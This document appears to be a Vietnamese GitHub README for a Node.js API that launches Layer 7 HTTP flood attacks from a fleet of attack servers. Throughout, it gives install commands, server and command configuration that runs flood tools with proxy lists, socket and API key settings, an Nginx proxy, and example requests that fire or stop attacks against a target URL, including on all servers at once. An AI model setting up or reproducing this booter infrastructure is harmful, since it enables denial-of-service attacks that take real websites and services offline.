 <h2>API NodeJS cho các cuộc tấn công Lớp 7</h2>

<h3>Được mã hóa bởi forky (tg: @yfork)</h3>

<h4>API này rất an toàn và nhanh (gấp đôi thời gian ping giữa API và chương trình phụ trợ, tức là ping là 60 mili giây, sẽ chỉ mất 120 mili giây để khởi chạy cuộc tấn công)</h4>


<h1>Cài đặt:</h1>

```sh
curl -sL https://deb.nodesource.com/setup_16.x | sudo bash -
sudo yum -y install nodejs
npm i express
```

<h1>Setup:</h1>

<h3>Update servers.json</h3><br>

```json
{
    "alpha": {
        "name": "alpha",
        "ip": "1.1.1.1",
        "port": 3000
    },
    "beta": {
        "name": "beta",
        "ip": "2.2.2.2",
        "port": 3000
    }
}
```

<h3>Update commands.json</h3><br>

```json
{
    "HTTPGET": "screen -dmS attack_${attack_id} ./http ${host} proxies.txt ${time}",
    "HTTPPOST": "screen -dmS attack_${attack_id} ./http ${host} proxies.txt ${time}",
    "STOP": "screen -dm pkill -f ${host}"
}
```

<h3>Update api.js:</h3><br>

```js
const api_port = 8888; //API Port
const socket_token = "SOCKET_TOKEN"; // TCP Socket token, use random numbers/letters
const api_key = "API_KEY"; // your API Key
const domain_lock = false; // lock api to only be used from a specific domain
const api_domain = 'example.com'; // your API domain (if domain_lock is set to true)
```

<h3>Update socket.js:</h3><br>

```js
const socket_port = 3000;
const socket_token = "SOCKET_TOKEN";
const allowed_ips = ['1.1.1.1'];
```

## Sau đó, tải socket.js lên máy chủ tấn công và tải api.js, servers.json và commands.json lên máy chủ API


### Proxy đảo ngược

Bạn nên tạo proxy ngược bằng Nginx để sử dụng API của mình:

```conf
server {
    listen 80;
    server_name api.yourdomain.com;
    location /api/attack {
        proxy_pass http://backend:3000/api/attack;
    }
}
```

Thay thế `'http://backend:3000/api/attack'` bằng URL máy chủ API của bạn

### Sử dụng API

Gửi yêu cầu GET tới API bằng các trường bắt buộc

GET `https://api.yourdomain.com/api/attack?host=https://website.com&time=120&method=HTTPGET&server=alpha`

Bạn có thể đặt &server=all để khởi chạy tới tất cả các máy chủ

Bạn có thể ngăn chặn các cuộc tấn công bằng cách gửi yêu cầu GET tới API sử dụng &method=stop

GET `https://api.yourdomain.com/api/attack?host=https://website.com&time=120&method=stop&server=alpha`

